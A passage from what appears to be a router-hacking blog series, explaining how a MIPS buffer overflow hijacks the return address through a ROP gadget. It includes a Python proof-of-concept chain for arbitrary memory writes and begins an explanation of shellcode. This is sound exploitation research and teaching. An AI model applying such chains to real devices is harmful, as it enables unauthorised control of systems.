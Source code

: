 *Normal execution:*
- At the end of the overflow function, the *$ra* is loaded from the overflow stack frame and the stack pointer is decreased by *0x98*
- Now in the caller 1 function, *$ra* is loaded from the caller 1 stack frame, *$sp* decreased by *0x10*
- Now in the caller 2 function, *$ra* is loaded from the caller 2 stack frame, *$sp* decreased by *0x10*
- Now in the caller 3 function, *$ra* is loaded from the caller 3 stack frame, *$sp* decreased by *0x20*

*Somehow working execution:*
- At the end of the overflow function, the *$ra* is loaded from the overflow stack frame (which has been overwritten to point to the address of our gadget) and the stack pointer is decreased by *0x98*
- Now in the gadget, *$ra* is loaded from the caller 1 stack frame, *$sp* is decreased by *0x10*
- Now in the caller 1 function, *ra* is loaded from the **caller 2 stack frame** which points to caller 3, *$sp* is decreased by *0x10*
- Caller 2 function has been skipped over
- Now in the caller 3 function, *$ra* is loaded from the caller 3 stack frame, *$sp* decreased by *0x20*

Here is the PoC code that demonstrates how memory can be written with this gadget:
```python
address_to_write = 0x801d3754
value_to_write = 0x62626262

# Add the strings to the sX registers, and set the ra to first gadget
chain += p32(value_to_write) # s0
chain += p32(address_to_write) # s1
chain += p32(0x802C5268) # s2
chain += p32(0x802ab9f4) # s3
chain += p32(0x8013be14) # ra

# 0x8013be14: sw $s0, ($s1); lw $ra, 0xc($sp); move $v0, $s0; lw $s2, 8($sp); lw $s1, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(0x802c0404) # s0
chain += p32(0x8025d504) # s1
chain += p32(0x802C5268) # s2
chain += p32(0x801888e8) # ra
```

We can prove that this worked by using the memory read functionality we created earlier, so it wasn't completely useless!

![write_test.png]({{site.baseurl}}/assets/images/analysing_a_dirt_cheap_router_part_4/write_test.png)

# What is Shellcode?

Shellcode is a series of instructions written in assembly, its called shellcode as it is usually used to get a shell on the target. If you can inject a specially crafted shellcode into the memory of a vulnerable program (and there are no mitigations), it grants unauthorized control over the system. Shellcode is the go-to method of exploiting buffer overflow vulnerabilities - shellcode is written to memory, and the program counter is set to the start of the shellcode to execute it.
